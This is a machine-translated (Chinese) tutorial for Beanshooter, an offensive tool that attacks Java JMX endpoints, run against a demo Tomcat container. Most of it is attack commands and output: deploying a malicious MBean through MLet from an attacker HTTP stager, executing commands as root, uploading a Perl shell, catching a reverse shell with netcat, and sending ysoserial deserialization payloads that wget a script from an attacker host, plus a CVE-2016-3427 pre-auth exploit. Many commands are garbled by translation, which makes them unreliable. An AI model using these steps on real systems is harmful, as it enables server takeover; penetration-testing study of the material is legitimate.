


# Beanshooter : JMX 计数和攻击工具

> 原文：<https://kalilinuxtutorials.com/beanshooter/>

***Beanshooter*** 是用 *Java* 编写的命令行工具，帮助识别 *JMX* 端点上的常见漏洞。

**简介**

*JMX* 代表 *Java 管理扩展*，可用于远程监控和配置 *Java 虚拟机*。像 *tomcat* 或 *JBoss* 这样的应用程序通常与 *JMX* 实例一起安装，这使得服务器管理员能够监控和管理相应的应用程序。

*JMX* 使用所谓的*mbean*进行监控和配置任务。 *JMX* 代理(服务器，端口)基本上只是一个接口，它处理远程连接并支持与底层 *MBean* 对象通信的方法。然后，实际的功能在 *MBean* 本身中实现，而 *JMX* 代理只将输入和输出传递给 *MBean* 对象。

默认情况下， *JMX* 端点支持名为 *MLet* 的 *MBean* 。这个 *MBean* 可以用来在 *JMX* 代理上部署新的*MBean*。这些新的 *MBean* 对象的代码库可以通过网络获得，例如以 *HTTP* 请求的形式。使用 **MLet** 功能，能够访问 *JMX* 代理的攻击者可以轻松部署他们自己的恶意 *MBean* 对象，并危及底层应用服务器的安全。

*Beanshooter* 是一款*概念验证*工具，可用于识别易受攻击的端点。它既适用于未经认证的 *JMX* 端点，也适用于经过认证的端点(假设您拥有有效的凭证和足够的权限)。此外，它还可以用于测试其他漏洞，如不安全的 *Java 反序列化*或 *CVE-2016-3427* 。也支持使用 *JMXMP* 协议的连接。

**安装**

*Beanshooter* 是一个 *Maven* 项目。这使得安装过程非常简单，不需要手动安装库。首先，确保你的系统上安装了 *maven* :

**$ sudo 安装 maven # Debian
$ pacman-s maven # Arch**

然后，在您选择的位置克隆 *beanshooter* 项目，并在项目文件夹中运行`**mvn package**`。

**【qtc @ kali opt】$ git clone https://github . com/qtc-de/beanshooter
【qtc @ kali opt】$ CD beanshooter
【qtc @ kali beanshooter】$ mvn package
【info】扫描项目…

【info】【info】———**

由于 *beanshooter* 的主要用途是部署 *MBean* 对象，所以你还需要一个相应的 *MBean* 。理论上，您可以部署任何满足 *MBean 规范*的 *MBean* 。然而，这个项目也提供了一个参考实现，tonka-bean。 *tonka-bean* 是一个独立的 *maven* 项目，你可以像编译 *beanshooter* 一样编译它:

**【qtc @ kali bean shooter】$ CD tonka-bean/
【qtc @ kali tonka-bean】$ mvn 包
【信息】扫描项目…
【信息】
【信息】—————<de . qtc . tonka bean:tonka-bean>——————
【信息】构建 tonka-bean 1.0.0 【T6【信息】——————————**

在 *maven* 完成后，你应该找到可执行文件*。对应项目的目标文件夹中的 jar* 文件。注意， *beanshooter* 需要知道`**tonka-bean.jar**`文件的位置。如果您已经将 *beanshooter* 放在了您的`**/opt**`文件夹中，这应该会自动运行。否则，您需要使用配置文件或相应的命令行选项来指定路径。

【qtc @ kali opt】$ ls-l beanster/target/beans hooter . jar
-rw-r–1 qtc 314856 sep 16 07:55 beanshooter/target/beans hooter . jar【qtc @ kali opt】$ ls-l beanster/tonka bean/target/tonka bean . jar
rw-r–1

*Beanshooter* 也支持 *bash* 的自动补全。为了利用自动完成，您需要安装完成助手项目。如果设置正确，只需将补全脚本复制到您的`**~/.bash_completion.d**`文件夹中即可启用自动补全。

**[qtc @ kali bean shooter]$ CP resources/bash _ completion . d/bean shooter ~/bash _ completion . d/**

**用途**

出于演示的目的，该项目包含一个 *Apache Tomcat* 的 docker 映像，该映像启用了 *JMX* 并监听端口 9010。相应的 docker 文件可以在这个库里面找到，应该可以让你自己练习一下 *beanshooter* 的用法。

下面的清单显示了相应容器的 ***nmap*** 输出。

**【qtc @ kali】# nmap-p--sV 172 . 17 . 0 . 2
2020-09-24 06:51 开始 Nmap 7.80(https://nmap.org)
172 . 17 . 0 . 2
主机的 Nmap 扫描报告开启(0.0000050s 延迟)。
未显示:65524 关闭端口
端口状态服务版本
5555/tcp 开放 java-object JMXMP 连接器
5556/tcp 开放 java-object Java 对象序列化
5557/tcp 开放 java-object Java 对象序列化
5558/tcp 开放 java-object Java 对象序列化
5559/tcp 开放 java-object Java 对象序列化
5560/tcp 开放 java-object Java 对象
9011/tcp 开放 ssl/d-star？
40213/TCP open Java-RMI Java RMI
执行服务检测。请向 https://nmap.org/submit/报告任何不正确的结果。
Nmap 完成:在 20.50 秒内扫描了 1 个 IP 地址(1 台主机启动)**

这个输出可能会产生误导，因为 *nmap* 无法立即检测到 *rmiregistry* 。这是因为这个服务器上的 *rmiregistry* 是针对 *TLS* 使用而配置的，这打破了大多数常见的检测和枚举工具。然而，通过查看被成功标记为 *Java RMI* 的高端口，可以猜测其中一个 *SSL* 端口必须是 *rmiregistry* 。使用 remote-method-guesser(支持 *SSL* 受保护的注册服务器的少数工具之一)，可以验证 *JMX 代理*正在运行:

**[qtc @ kali ~]$ RMG–SSL–classes 172 . 17 . 0 . 2 9010
[+]连接到 RMI 注册表…完成。
[+]获取绑定名称列表…完成。
[+] 1 个名字被绑定到注册表。
[-] RMI 对象试图连接到不同的远程主机:iinsecure.dev
[-]将 ssl 连接重定向回 172.17.0.2…
[-]这是为所有进一步的请求而做的。此消息不再显示。
[+]在注册表中列出绑定名称:
[+】JMX RMI
[+]–>javax . management . remote . RMI . rmiserverimpl _ Stub(已知类)**

为了验证未授权的访问，您可以使用带有*状态*动作的 *beanshooter* 。在未受保护的 *JMX 端点*上，输出应该如下所示:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 没有在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 没有在 JMX 服务器上注册。**

status 命令显示 *MLet* 和恶意 *MBean* 都没有在 *JMX* 端点上注册。现在，您可以通过使用 *deployMLet* 和 *deployMBean* 操作逐个部署它们，或者您可以简单地使用 *deployAll* 一步部署两者。然而，为了部署恶意的 *MBean* ，远程服务器需要建立到您的监听器的 *HTTP* 连接。因此，您可能需要一个防火墙白名单，并且您必须使用 *beanshooter* 的相应的`**--stager-host**`和`**--stager-port**`选项来指定在哪里可以找到您的监听器。最后，确保您想要部署的 *MBean* 可以在您的配置文件中指定的路径中找到(默认为 **: `/opt/beanshooter/tonka-bean/target/`** )。如果您使用自定义的 *MBean* ，您还应该采用 *beanClass* 和 *objectName* 值。

**【qtc @ kali ~】$ bean shooter–SSL–stager-host 172 . 17 . 0 . 1–stager-port 8080 172 . 17 . 0 . 2 9010 deploy all
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean ' MLet'…完成！
[+]
[+]恶意 Bean 似乎没有在服务器上注册
[+]开始注册过程
[+]在 172.17.0.1:8080 上创建 HTTP 服务器
[+]为端点/mlet 创建 MLetHandler 完成！
[+]为端点/tonka-bean.jar 创建 JarHandler 完成！
[+]启动 HTTP 服务器…完成！
[+]
[+]收到/mlet
[+]发送恶意 mlet 的请求:
[+]
[+]Class:de . qtc . TonkaBean . TonkaBean
[+]Archive:tonka-bean . jar
[+]Object:mlettokabean:name = TonkaBean，id = 1
[+]code base:http://172 . 17 . 0 . 1:8080
[+]
[+]恶意 Bean 注册成功**

现在可以使用*状态*或 *ping* 命令来验证恶意的 *MBean* 是否被成功部署:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 在 JMX 服务器上注册。
[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 ping
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送 ping 到服务器…完成！
[+]服务器答案是:Pong！**

如果您部署了一个定制的恶意 *MBean* ，您现在可以直接从 *jconsole* 中调用您的 *MBean* 方法。虽然这对于 *tonka-bean* 也是可能的，但是 *beanshooter* 支持从命令行与 *tonka-bean* 交互的动作:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 execute id
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送命令' id '到服务器…
[+] Servers 答案是:uid = 0(root)GID = 0(root)groups = 0(root)**

您还可以使用 *shell* 动作，在一个(伪)命令 shell 中启动多个命令。外壳还包含包装 *beanshooter* 的`**upload**`、`**download**`和`**executeBackground**`动作的包装器:

**【qtc @ kali ~】$ bean shooter–SSL 172 . 17 . 0 . 2 9010 shell
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]启动交互 shell…
$ id
uid = 0(root)GID = 0(root)groups = 0(root)
$！上传~/www/shell . pl/dev/shm/s . pl
[+]文件上传完毕。170 字节写入/dev/shm/s.pl
$！后台 perl /dev/shm/s.pl
命令在后台执行。
$ exit
[qtc @ kali ~]$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:连接自 172.17.0.2。
Ncat:来自 172.17.0.2:37522 的连接。
id
uid = 0(root)GID = 0(root)groups = 0(root)**

一旦您完成了您的 *MBean* ，您应该确保取消部署您对服务器所做的所有更改。至少你应该从服务器上移除你的恶意 *MBean* ，但是如果 *MLet* 在你启动时不可用，你也应该移除 *MLet* 。 *beanshooter* 让清理变得相当容易，只需调用:

现在， *JMX* 端点应该再次被清理， *MLet* 和恶意的 *MBean* 应该被删除。

**JMXMP 支持**

*JMXMP* ( *JMX 消息协议*)只是访问 *JMX* 代理的一种替代方式(替代连接器)，在某些方面与上述基于 *Java RMI* 的访问不同。然而，对于这个工具来说，这些差异并不重要。重要的是, *JMXMP* 连接器也可以允许未经认证的连接，并且还可以在该连接器上使用 *MLet MBean* 。

在*中可以找到 *JMXMP* 连接器所需的类。jar* 文件名为 *jmxremote_optional.jar* 。可惜这个*。jar* 在 *Maven* 上已经没有自己的项目了(看起来它曾经是 *JMX* 项目的一个工件，但是由于某种原因被移除了)。现在，它可以作为其他项目的工件加载。 *beanshooter* 通过使用来自 *org.glassfish.external* 的 *jmxremote-optional* 工件来支持 *JMXMP* 协议。

为了测试 *JMXMP* 支持，提供的 docker-image 还在端口`**5555**`到**T1 上打开了多个 *JMXMP* 监听器。**下面的清单显示了与上面相同的例子，但是这次使用了 *JMXMP* 协议:

**【qtc @ kali ~】$ bean shooter–JMX MP–stager-host 172 . 17 . 0 . 1–stager-port 8080 172 . 17 . 0 . 2 5555 deploy all
[+]连接 JMX 服务器…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean ' MLet'…完成！
[+]MBean“MLet”已经存在。
[+]
[+]恶意 Bean 似乎没有在服务器上注册
[+]开始注册过程
[+]在 172.17.0.1:8080
[+]为端点/mlet 创建 MLetHandler 完成！
[+]为端点/tonka-bean.jar 创建 JarHandler 完成！
[+]启动 HTTP 服务器…完成！
[+]
[+]收到/mlet
[+]发送恶意 mlet 的请求:
[+]
[+]Class:de . qtc . TonkaBean . TonkaBean
[+]Archive:tonka-bean . jar
[+]Object:mlettokabean:name = TonkaBean，id = 1
[+]code base:http://172 . 17 . 0 . 1:8088
[+]
[+]恶意 Bean 注册成功
[qtc @ kali ~]$ Bean shooter–jmxmp 172 . 17 . 0 . 2 5555 execute id
[+]连接 JMX 服务器…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送命令' id '到服务器…
[+] Servers 答案是:uid = 0(root)GID = 0(root)groups = 0(root)**

除了端口**`5555`**上的普通 *JMXMP* 监听器外，其他 *JMXMP* 监听器实现不同种类的保护:

*   端口**`5556`**–*SSL*受保护 *JMXMP*
*   港口`**5557**`–*TLS SASL/平原*受保护 *JMXMP*
*   端口`**5558**`–*TLS SASL/CRAM-MD5*受保护 *JMXMP*
*   端口`**5559**`–*TLS SASL/DIGEST-MD5*受保护 *JMXMP*
*   端口`**5560**`–*TLS SASL/NTLM*受保护 *JMXMP*

*Beanshooter* 支持所有这些类型的保护，相应的示例可以在 docker-container 的`**README.md**`中找到。

有用的提示:也可以使用 *jconsole* 通过 *JMXMP* 连接到一个正在运行的 *JMX* 代理。不是简单地指定连接的主机和端口号，而是必须使用 *JMXMP* 服务 URI `**service:jmx:jmxmp://<JMXMPHOST>:<JMXMPPORT>**`，并且必须确保 *jmxremote_optional.jar* 在您的类路径中。

**反序列化支持**

在经过认证的 *JMX* 端点的情况下，使用 *MLet* 不起作用是很常见的，即使有有效的凭证。下面的清单显示了在经过身份验证的 *JMX* 端点上部署恶意 *MBean* 的尝试:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 18 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…失败！
[*]
[-]抛出以下异常:java.lang.SecurityException:认证失败！需要凭据
[qtc @ kali ~]$ bean shooter–SSL–用户名控制角色–密码控制 172.18.0.2 9010 状态
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 没有在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 未在 JMX 服务器上注册。
【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172.18.0.2 9010 部署 All
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean“MLet”失败！
[-]抛出以下异常:java.lang.SecurityException:访问被拒绝！除非安装了安全管理器，否则禁止创建作为类加载器的 MBean。**

在这些情况下，仍然有可能通过使用*反序列化攻击*来攻击 *JMX* 端点。为了允许这种攻击，可以通过指定对应的 *ysoserial 的路径，将 ysoserial 项目集成到 *beanshooter* 中。jar* 文件。这可以在配置文件中或通过使用`**--yso**`命令行选项进行配置。默认位置是`**/opt/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar**`。

正确设置 *ysoserial* 后，用户可以尝试对目标进行反序列化攻击:

**【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172 . 18 . 0 . 2 9010 ysserial commons collections 6 " wget-O/dev/shm/s . pl http://172 . 18 . 0 . 1:8000/shell . pl "
[+]创建 ysserial 有效负载…完成。
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]将有效负载发送到“getLoggerLevel”…
[+]IllegalArgumentException。这很好🙂有效载荷可能起作用了。
【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172 . 18 . 0 . 2 9010 ysserial commons collections 6 " perl/dev/shm/s . pl "
[+]创建 ysserial 有效负载…完成。
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]将有效负载发送到“getLoggerLevel”…
[+]IllegalArgumentException。这很好🙂有效载荷可能起作用了。
【qtc @ kali ~】$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:连接自 172.18.0.2。Ncat:来自 172.18.0.2:45994 的连接。
id
uid = 0(root)GID = 0(root)groups = 0(root)**

旧的 *JMX* 实例也可能容易受到 *CVE-2016-3427* 的攻击，这基本上是一个*预授权*反序列化漏洞。上述反序列化攻击应该针对基于 *RMI* 的连接器以及基于 *JMXMP* 的连接器，而*预授权*攻击只针对基于 *RMI* 的连接器:

[**qtc @ kali ~]$ bean shooter–SSL 172 . 18 . 0 . 2 9010 CVE-2016-3427 commons collections 6 " perl/dev/shm/s . pl "
[+]创建 ysoserial 有效负载…完成。
[+]CVE-2016-3427-发送序列化对象作为凭据。
[+]连接尝试期间可能会出现异常。
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…失败！
[ *] [* ]捕获到内容为“验证失败”的安全异常！凭据应该是 String[]而不是 java.util.HashSet '。
[*]目标最有可能易受 cve-2016-3427 攻击。
【qtc @ kali ~】$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:从 172.18.0.2 连接。
Ncat:连接自 172.18.0.2:46000。
id
uid=0(根)gid=0(根)groups=0(根)**

**高级用法**

上面已经提到过 *beanshooter* 可以从配置文件中读取选项。需要长值的选项，如 *MBean* 类的名称或相应的 *ObjectName* 只能在配置文件内部传递。下面的截图显示了 *beanshooter* 内部使用的默认配置文件:

**default cmd = id
stage rt = 8080
stage test = 127 . 0 . 0 . 1
username =
password =
bound name = jmxrmi
jarpath =/opt/beans hooter/tonka bean/target/
jarname = tonka bean . jar**

通过使用`**--config**`参数指定自定义配置文件，可以覆盖每个选项。自定义配置文件不需要包含所有选项。不存在的选项被简单地设置为默认值。如果您希望您的自定义配置适用于*beanshoter*的每次使用，您也可以在编译项目之前修改 [src](https://github.com/qtc-de/beanshooter/blob/master/src) 文件夹中的 [config.properties](https://github.com/qtc-de/beanshooter/blob/master/src/config.properties) 文件。

在目标服务器因为限制性的防火墙规则而无法访问您的主机的情况下，您可以使用 **`--remote-stager`** 选项来指定一个远程主机。如果您可以访问*远程阶段*，您也可以使用*bean shoter*通过使用`**--stager-only**`选项来部署 *MBean* ，这只会生成 *HTTP* 侦听器。使用此选项时，不需要额外的命令行参数。然而，在你的攻击机器上，你仍然需要通过使用命令行选项或配置文件来指定正确的`**--stager-host**`。

[**Download**](https://github.com/qtc-de/beanshooter)